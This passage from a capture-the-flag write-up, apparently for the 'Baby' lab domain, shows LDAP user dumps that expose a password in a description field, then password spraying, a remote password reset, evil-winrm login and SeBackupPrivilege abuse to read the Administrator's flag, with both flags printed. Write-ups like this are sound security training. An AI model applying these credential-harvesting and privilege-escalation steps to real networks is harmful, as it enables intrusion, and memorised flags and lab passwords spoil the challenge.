dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Kerry Wilson, it, baby.vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Kerry Wilson
sn: Wilson
givenName: Kerry
distinguishedName: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151108.0Z
displayName: Kerry Wilson
uSNCreated: 12879
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12884
name: Kerry Wilson
objectGUID:: vZ3N44jyakmXClchAicbbg==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810686929995
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Kerry.Wilson
sAMAccountType: 805306368
userPrincipalName: Kerry.Wilson@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to BabyStart123!
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0

```

We can then filter the previous output to look for usernames and redirect them to a file, as follows: 
```bash
ldapsearch -x -H ldap://10.10.77.255 -D 'CN=admin,DC=baby.vl,DC=org' -W -b 'DC=BABY,DC=VL' 'objectClass=user' | grep "dn: CN" > dc_users.txt`
```
We can see that the user **Teresa Bell** left its password in the description section, so we can try to use it in order to get an initial access as that user.


By trying password spraying for the dc users found before, we found that **Caroline.Robinson** has the password **BabyStart123!**



Knowing that the password for **Caroline Robinson** must change, we used the command smbpasswd to remotely modify the password of that user.



After changing the password to **BabyStart123?**, we can authenticate as the user **Caroline.Robinson** using evil-winrm: 

```bash
evil-winrm -u Caroline.Robinson -p 'BabyStart123?' -i 10.10.77.255`
```



By navigating through the current user's directories, we can find a flag inside the user.txt file in the Desktop Folder: 
`VL{b2c6150b85125d32f4b253df9540d898}`

## Privilege Escalation

We start our enumeration process for a privilege escalation vector, by checking all the privileges of the current user **Caroline.Robinson**: 
```powershell
whoami /all
```


The command output gives us insights about a potential privilege escalation vector by exploiting the **SeBackupPrivilege**, knowing that the user is also part of the Backup Operators Group.

Doing some research about it, We understood that this privilege allows users to make backups of the system, thus providing them read access to system files.

We also found a [github repository](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) with 2 DLLs that we can use **SeBackupPrivilegeCmdLets.dll** and **SeBackupPrivilegeUtils.dll**.

We then download these files into the victim's machine and import them, as follows:

```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

After importing these 2 DLL files, we can then create a copy of the root.txt file which was inside the C:\Administrator\Desktop folder and get the root flag.

```powershell
Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt  C:\Temp\root.txt
```

* Content of the root.txt file: 
`VL{9000cab96bcf62e99073ff5f6653ce90}` 